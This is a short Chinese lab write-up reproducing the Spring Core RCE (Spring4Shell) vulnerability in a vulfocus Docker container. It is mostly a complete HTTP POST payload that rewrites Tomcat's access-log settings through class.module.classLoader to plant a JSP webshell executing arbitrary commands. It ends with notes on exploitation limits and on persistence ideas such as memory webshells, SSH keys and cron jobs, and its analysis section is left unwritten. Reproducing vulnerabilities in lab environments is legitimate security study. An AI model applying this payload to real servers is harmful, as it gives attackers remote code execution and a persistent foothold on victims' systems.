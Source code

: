 ## 环境搭建
```shell
docker pull vulfocus/spring-core-rce-2022-03-29
```
## 启动环境
```shell
docker run -it -d --name springrce -p 192.168.93.131:9000:8080 vulfocus/spring-core-rce-2022-03-29
```
访问`192.168.93.131:9000` 出现如下界面则说明环境搭建成功
![image.png](Spring-Core RCE.assets/2023_05_19_10_37_03_V9kD1vnq.png)

## 漏洞复现
当前docker 环境中，jdk版本为9.0
![image.png](Spring-Core RCE.assets/2023_05_19_10_37_03_AiRqoUuC.png)
```http
POST / HTTP/1.1
Host: 192.168.93.131:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 685
suffix: %>
prefix: <%

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7bprefix%7dijava.io.InputStream+in+%3d+Runtime.getRuntime().exec(request.getParameter("i")).getInputStream()%3b+int+a+%3d+-1%3b+byte[]+b+%3d+new+byte[2048]%3b+out.print("<pre>")%3b+while((a%3din.read(b))!%3d-1){+out.println(new+String(b))%3b+}+out.print("</pre>")%3b%25%7bsuffix%7di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=./webapps/ROOT/&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat
```
![image.png](Spring-Core RCE.assets/2023_05_19_10_37_04_viXaoteV.png)
## 问题总结

1. 目前看效果只能写一次，发送过1次payload之后，是不能向其他目录下写新文件
2. 发送一次payload之后之后，只能向文件里追加，不会覆盖文件
3. 如果没有容器化部署（tomcat war包部署），是写不了webshell，虽然还没捋清楚是否是代码执行，如果是代码执行，那么可以在运行态中写入内存马达到作用，如果是命令执行，那么是不行的（看payload的样子感觉是命令执行`pipeline`）
4. 如果是以jar包部署，那么考虑到启动jar包的用户权限，一般不会太高，在做了最小权限法的服务器，启动web服务的用户是没有家目录，导致无法写入公钥，也没权限写入计划任务
5. post包最后也就是第15行后不要有回车，不然生成的文件是`shell$\r\n.jsp`
6. 目前看很鸡肋
## 漏洞分析
空了写

